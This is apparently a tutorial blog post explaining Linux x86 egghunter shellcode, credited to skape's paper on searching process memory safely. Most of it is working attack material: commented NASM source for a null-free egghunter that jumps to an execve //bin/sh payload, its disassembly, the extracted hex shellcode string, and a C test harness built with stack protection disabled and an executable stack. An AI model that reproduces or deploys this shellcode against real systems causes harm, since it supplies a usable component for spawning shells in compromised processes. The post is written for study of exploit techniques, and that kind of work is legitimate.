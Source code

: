 ## Egghunter Shellcode

A Linux x86 assembly language program that enables a the user to perform a two stage operation from within a process. The first stage is the hunter, searching the memory of the compromised process for a specific marker, the egg, and upon finding the egg passing control to the shellcode payload. A working example of such code follows, this code is written to avoid NULL’s in order to be used as working shellcode. The main use of such code is in situations whereby the space within a process is at a premium and the payload is unable to be loaded in it’s entirety. Comments have been added for study purposes.
```nasm
; sigaction egghunter shellcode
; http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf
 
global _start
section .text
_start:
pageinc:
    or   cx,0x0fff          ; page alignment and validation, 4095
addrinc:
    inc  ecx                ; increase address value
 
    ; Sigaction
    ; Function prototype:
    ;     int sigaction(int signum, const struct sigaction *act,
    ;          struct sigaction *oldact);
    ; Purpose:
    ;     Used to change an action by a process on receiving a specific
    ;     signal. Can handle any valid signal except for SIGKILL/SIGSTOP
    ;
    ;     Sigaction structure definition as per prototype:
    ;     struct sigaction {
    ;         void     (*sa_handler)(int);
    ;         void     (*sa_sigaction)(int, siginfo_t *, void *);
    ;         sigset_t   sa_mask;
    ;         int        sa_flags;
    ;         void     (*sa_restorer)(void);
    ;     };
    push 0x43               ; sigaction()
    pop  eax
    int  0x80               ; make the call
    cmp  al, 0xf2           ; test for EFAULT
    je   pageinc            ; EFAULT, access next page
    mov  eax,0x50905090     ; Marker code to find
    mov  edi,ecx            ; edi contains address to search
    scasd                   ; look for first marker
    jnz  addrinc            ; no marker found, next address
    scasd                   ; first marker found look for second
    jnz  addrinc            ; no marker found, next address
    jmp  edi                ; found markers jump to shellcode payload
 
    ; Marker bytes, enables hunter code to find the start of the
    ; shellcode payload, must be executable code to work correctly.
    nop                     ; 0x90
    push eax                ; 0x50
    nop
    push eax
    nop
    push eax
    nop
    push eax
 
    ; Execve
    ; Function prototype:
    ;     int execve(const char *fn, char *const argv[],
    ;         char *const envp[])
    ; Purpose:
    ;     to execute a program on a remote and/or compromised
    ;     system. There is no return from using execve therefore
    ;     an exit syscall is not required
    xor eax,eax             ; zero eax register
    xor edx,edx             ; zero edx register
    push edx                ; push null
    push 0x68732f6e         ; hs/n
    push 0x69622f2f         ; ib//
    mov ebx,esp             ; ebx contains address of //bin/sh
    push edx                ; push null
    push ebx                ; push address of //bin/sh
    mov ecx,esp             ; ecx pointer to //bin/sh
    push edx                ; push null
    mov edx,esp             ; edx contains pointer to null
    mov al,0xb              ; execve()
    int 0x80                ; make the call
```
Build the code:
```
$ nasm -felf32 -o egghunter.o egghunter.asm
$ ld -o egghunter egghunter.o
```
Check for nulls:
```
$ objdump -D egghunter -M intel
egghunt:     file format elf32-i386
Disassembly of section .text:
08048060 <_start>:
 8048060:   66 81 c9 ff 0f          or     cx,0xfff
08048065 <addrinc>:
 8048065:   41                      inc    ecx
 8048066:   6a 43                   push   0x43
 8048068:   58                      pop    eax
 8048069:   cd 80                   int    0x80
 804806b:   3c f2                   cmp    al,0xf2
 804806d:   74 f1                   je     8048060 <_start>
 804806f:   b8 90 50 90 50          mov    eax,0x50905090
 8048074:   89 cf                   mov    edi,ecx
 8048076:   af                      scas   eax,DWORD PTR es:[edi]
 8048077:   75 ec                   jne    8048065 <addrinc>
 8048079:   af                      scas   eax,DWORD PTR es:[edi]
 804807a:   75 e9                   jne    8048065 <addrinc>
 804807c:   ff e7                   jmp    edi
 804807e:   90                      nop
 804807f:   50                      push   eax
 8048080:   90                      nop
 8048081:   50                      push   eax
 8048082:   90                      nop
 8048083:   50                      push   eax
 8048084:   90                      nop
 8048085:   50                      push   eax
 8048086:   31 c0                   xor    eax,eax
 8048088:   31 d2                   xor    edx,edx
 804808a:   52                      push   edx
 804808b:   68 6e 2f 73 68          push   0x68732f6e
 8048090:   68 2f 2f 62 69          push   0x69622f2f
 8048095:   89 e3                   mov    ebx,esp
 8048097:   52                      push   edx
 8048098:   53                      push   ebx
 8048099:   89 e1                   mov    ecx,esp
 804809b:   52                      push   edx
 804809c:   89 e2                   mov    edx,esp
 804809e:   b0 0b                   mov    al,0xb
 80480a0:   cd 80                   int    0x80
```
Test above executable on localhost:
Open a terminal under working directory,

$ ./egghunter

The result of this will be a new /bin/sh

$

The test is to make sure things work rather than attempt to be an example of real world usage, as in reality the shellcode payload will not be as near to the hunter, otherwise there would most likely be no need for such a method. A more grounded example will be provided later in this post.

Get shellcode from executable:
Use the following from the commandlinefu website replacing PROGRAM with the name of the required executable like so
```bash
$ objdump -d ./egghunter | grep ‘[0-9a-f]:’ | grep -v ‘file’ | cut -f2 -d: | cut -f1-6 -d’ ‘ | tr -s ‘ ‘ | tr ‘t’ ‘ ‘ | sed ‘s/ $//g’ | sed ‘s/ /x/g’ | paste -d ” -s | sed ‘s/^/”/’ | sed ‘s/$/”/g’

“\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x90\x50\x90\x50\x89\xcf\xaf
\x75\xec\xaf\x75\xe9\xff\xe7\x90\x50\x90\x50\x90\x50\x90\x50\x31\xc0\x31\xd2\x52\x68\x6e\x2f
\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x52\x89\xe2\xb0\x0b\xcd\x80”
```
For a more complete analysis of what is going on within the shellcode and the choice of sigaction as a system call, I can do no better than to point you to section 3.1.3 sigaction(2), page 13 of the aformentioned paper. I would be doing a great injustice to this work to try and replicate it here in my own words. With that, a more complete and useful shellcode example is presented below.
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
  
/*
 * Marker code must be executable, currently:
 *   \x90 nop
 *   \x50 push eax
 */
#define MARKER "\x90\x50" 
  
char hunter[] = 
    "\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1"
    "\xb8"MARKER""MARKER"\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7";
char marker[] = MARKER; 
char shellcode[] = 
    "\x31\xc0\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69"
    "\x89\xe3\x52\x53\x89\xe1\x52\x89\xe2\xb0\x0b\xcd\x80";
  
int
main(void) 
{
    int i=0, nmarkers = 4, markerlen = sizeof(marker)-1;
    /* 
     * Setup area of memory for testing,
     * place marker and shellcode into area.
     */
    char *egg = malloc(128);
    memcpy(egg+(markerlen*nmarkers), shellcode, sizeof(shellcode)-1);
    do {
        memcpy(egg+i, marker, markerlen);
        i += markerlen;
    } while(i != (markerlen * nmarkers));
    /*
     * Run hunter to search for marker and jump to shellcode 
     */
    int (*ret)() = (int(*)())hunter;
    ret();
    free(egg);
    return 0;
}
```
In the above C source code the shellcode is split into more meaningful sections. This allows for flexibility, in that markers, memory ranges, etc. can all be changed, allowing for various testing scenarios and giving ample opportunity to segfault on whim! I have tried to make the source code dynamic with as few hardcoded values as possible.

Build the code:
```
$ gcc -fno-stack-protector -z execstack -o egghunter egghunter.c
```
The options for gcc are to disable stack protection and enable stack execution respectively. Without these options the code will cause a segfault.

Test above executable on a localhost:

$ ./egghunter

the system after a second, or two depending on your memory scheme, will return a new /bin/sh

$

The hunter shellcode above currently weighs in at 30 bytes. With further research the codebase could possibly be reduced, especially on architectures other than x86, but I strongly suspect that the robust nature of the code would be compromised, this is not to say that in certain scenarios a more optimal yet unstable solution would be required.

Note:
The code and the majority of my research into egghunter shellcode is based on the work ‘Safely Searching Process Virtual Address Space‘ by mmiller@hick.org. 
This is an excellent and informative paper, which for me was enlightening as to how much within the box my thinking has become. I am truly grateful for authors who take the time to share their knowledge, especially on such subjects.

Shell-storm database entry: http://shell-storm.org/shellcode/files/shellcode-850.php
